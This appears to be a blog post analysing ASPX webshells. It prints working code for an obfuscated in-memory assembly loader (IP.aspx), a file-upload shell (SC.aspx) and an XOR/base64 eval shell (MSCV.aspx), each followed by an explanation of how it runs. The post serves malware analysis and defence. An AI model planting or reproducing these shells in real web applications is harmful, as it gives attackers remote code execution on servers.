
---
layout: post
title:  "ASPX Webshells analysis"
---


# App.asbx

- Page_Load function: return environment variable "APP_POOL_ID" value when page is loaded and the "
- APP_POOL_ID : The name of the application pool that is running the IIS worker process handling the request
- Execute function: Creates a new cmd process "cmd.exe /c time /T" to get the current time
- Query function: Execute SQL query and return output
- Upload: Create File with data in temp folder and return path to file
- Fix: change file creation, last access, and last write time.

# IP.aspx

```c
*byte[] c=Request.BinaryRead(Request.ContentLength);*

*string asname=System.Text.Encoding.ASCII.GetString(new byte[] {0x53,0x79,0x73,0x74,0x65,0x6d,0x2e,0x52,0x65,0x66,0x6c,0x65,0x63,0x74,0x69,0x6f,0x6e,0x2e,0x41,0x73,0x73,0x65,0x6d,0x62,0x6c,0x79});//System.Reflection.Assembly*

*Type assembly=Type.GetType(asname);*

*MethodInfo load = assembly.GetMethod("Load",new Type[] {new byte[0].GetType()});*

*object obj=load.Invoke(null, new object[]{Decrypt(c)});*

*MethodInfo create = assembly.GetMethod("CreateInstance",new Type[] { "".GetType()});*

*string name = System.Text.Encoding.ASCII.GetString(new byte[] { 0x55 }); //U*

*object pay=create.Invoke(obj,new object[] { name });*

*pay.Equals(this);*
```

When the request is received, the binary in the request is read to memory, then it is decrypted with AES ECB algorithm, and the Load method of *System.Reflection.Assembly* is called to load the .NET binary in memory. After loading the binary, the *CreateInstance* method is called to get the binary instance, and finally, the “Equals” method is called from the binary.

# SC.aspx

```c
String filePath = String.IsNullOrEmpty(Request["filePath"])?Request.ServerVariables["APPL_PHYSICAL_PATH"]:Request["filePath"];

if(Request.Files.AllKeys.Length > 0){

foreach (string fileString in Request.Files.AllKeys){

HttpPostedFile file = Request.Files[fileString];

file.SaveAs(filePath + file.FileName);

Response.Write(filePath + file.FileName);

}

}else{

Response.Write(string.Format("<form action='' method='post' enctype='multipart/form-data'><input name='filePath' type='text' value='{0}' /><input name='file' type='file' /><input type='submit' value='submit'></form>",filePath));

}

%>
```

The websshell reads a list of file from the request and writ them to the machine in a specific path.

# MSCV.aspx

```c
*function xor(str)*

*{*

*var key = "cc17c30cd111c7215fc8f51f8790e0e1";*

*var ins = [];*

*for(var x=0;x<str.length;x++)*

*{*

*ins[x] = str[x] ^ key[x%32];*

*}*

*return ins;*

*}*

*function tt(str)*

*{*

*var c = str.ToCharArray();*

*var l = str.length;*

*var r = "";*

*for (var i = 0; i < l ; i++)*

*{*

*r = r + c[l - i - 1];*

*}*

*var eee = xor(System.Convert.FromBase64String(r));*

*return eee;*

*}*

*function un(str,rrr)*

*{*

*return "" + eval(System.Text.Encoding.GetEncoding("UTF-8").GetString(tt(Request.Item["ceshi"].substr(22))),str+rrr);*

*}*

*un('uns',"afe");*

*%>*
```

The payload is in in the header item “ceshi”. The payload starts at offset 22, it is read and passed to the “tt” function. The string is first reversed, then it is decoded using base64, and finally the xor function is called to decrypt the bytes and get the command to run in eval function to execute the command.